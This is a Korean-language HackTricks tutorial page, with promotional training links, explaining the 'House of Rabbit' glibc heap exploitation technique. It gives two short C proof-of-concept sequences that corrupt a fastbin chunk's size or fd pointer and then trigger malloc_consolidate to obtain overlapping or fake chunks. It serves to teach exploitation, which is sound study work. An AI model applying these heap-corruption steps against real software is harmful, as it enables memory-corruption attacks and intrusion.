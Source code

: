 # 토끼의 집

{% hint style="success" %}
AWS 해킹 배우고 실습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 실습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 가입하거나 [**텔레그램 그룹**](https://t.me/peass) 참여 또는 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 팔로우하기**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR을 제출하여 해킹 요령 공유하기.

</details>
{% endhint %}

### 요구 사항

1. **빠른 바이너리 fd 포인터 또는 크기 수정 능력**: 이는 fastbin의 청크의 포워드 포인터 또는 크기를 변경할 수 있는 능력을 의미합니다.
2. **`malloc_consolidate`를 트리거할 수 있는 능력**: 큰 청크를 할당하거나 상단 청크를 병합하여 청크를 통합하도록 강제함으로써 이를 수행할 수 있습니다.

### 목표

1. **중첩된 청크 생성**: 다른 청크와 중첩되는 하나의 청크를 가지고 힙 조작을 더 수행할 수 있도록 합니다.
2. **가짜 청크 조작**: 할당기를 속여 가짜 청크를 합법적인 청크로 취급하도록 합니다.

## 공격 단계

### POC 1: 빠른 바이너리 청크의 크기 수정

**목표**: fastbin 청크의 크기를 조작하여 중첩된 청크를 생성합니다.

* **단계 1: 청크 할당**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **단계 2: 청크 해제**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **단계 3: 청크 크기 수정**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **단계 4: `malloc_consolidate`를 트리거합니다**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
대규모 청크를 할당하면 `malloc_consolidate` 함수가 트리거되어 빠른 bin에서 작은 청크를 병합합니다. `chunk1`의 조작된 크기로 인해 `chunk2`와 겹칩니다.

통합 후 `chunk1`은 `chunk2`와 겹쳐져 추가적인 악용이 가능해집니다.

### POC 2: `fd` 포인터 수정

**목표**: 빠른 bin `fd` 포인터를 조작하여 가짜 청크를 생성합니다.

* **단계 1: 청크 할당**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**설명**: 우리는 가짜 청크를 설정하기 위해 하나는 작고 다른 하나는 큰 두 청크를 할당합니다.

* **단계 2: 가짜 청크 생성**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **단계 3: `chunk1`을 해제합니다**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**설명**: 우리는 `chunk1`을 해제하여 fastbin 목록에 추가합니다.

* **단계 4: `chunk1`의 `fd` 수정**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**설명**: `chunk1`의 전방향 포인터(`fd`)를 `chunk2` 내의 가짜 청크를 가리키도록 변경합니다.

* **단계 5: `malloc_consolidate`를 트리거합니다**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
대규모 청크를 다시 할당하면 `malloc_consolidate`가 트리거되어 가짜 청크를 처리합니다.

가짜 청크는 fastbin 목록의 일부가 되어 추가적인 악용을 위한 합법적인 청크가 됩니다.

### 요약

**House of Rabbit** 기술은 fast bin 청크의 크기를 수정하여 겹치는 청크를 만들거나 `fd` 포인터를 조작하여 가짜 청크를 만드는 것을 포함합니다. 이를 통해 공격자는 힙(heap)에서 합법적인 청크를 조작하여 다양한 형태의 악용을 가능케 합니다. 이러한 단계를 이해하고 연습함으로써 힙 악용 기술을 향상시킬 수 있습니다.
